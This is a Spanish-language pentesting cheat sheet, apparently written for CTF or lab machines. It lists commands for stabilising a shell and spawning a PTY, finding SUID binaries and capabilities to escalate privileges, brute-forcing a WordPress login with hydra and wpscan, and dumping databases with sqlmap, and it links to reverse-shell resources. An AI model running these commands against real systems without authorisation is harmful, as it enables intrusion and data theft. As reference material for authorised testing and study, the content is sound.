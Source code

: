 # COMANDOS MAS COMUNES PENTESTING 🚀

## Estabilizar shell 🔧
```
/usr/bin/script -qc /bin/bash /dev/null
Ctrl+z
stty raw -echo;fg
```
## NMAP básico 🔧
nmap -sC -sV -oN initial $IP

## Escalar priveligios 📖
```
cat /etc/crontab
```
Buscamos ficheros que con permiso SUID
	
SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.
```
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null
```
Busqueda de ficheros ejecuables:
```
find / -type f -name "*.sh" 2>/dev/null
```

https://gtfobins.github.io/#

## Reverse shell 📖
https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/

## Técnicas varias 🔧
_Abrir terminal con python:_ 
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
_Uso de hydra:_ 
```
hydra -L fsocity.dic -p test 10.10.192.186 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.192.186%2Fwp-admin%2F&testcookie=1:F=Invalid username' otra opción final: /S=302
```
_Encriptar gpg:_
```
gpg --list-keys --> listar claves
gpg --import /var/backup/root@harder.local.pub --> importar claves
gpg -er root command --> encryptar archivo con la clave
```
_Ver puertos abiertos:_
```
sudo netstat -tulpn | grep LISTEN
```
_sqlmap:
```
sqlmap -r request.txt --dbs -->traer bases de datos
sqlmap -r request.txt -D wordpress -tables --> traer tablas
sqlmap -r request.txt --dump -D "database" -T "tabla"
```
_wordpress:
```
wpscan --url site.wekor.thm/wordpress -e vp,vt,cb,u
wpscan --url http://site.wekor.thm/wordpress/-U user.txt -P /usr/share/wordlists/rockyou.txt -vv
```
_Open ports linux
```
ss -lntp
```
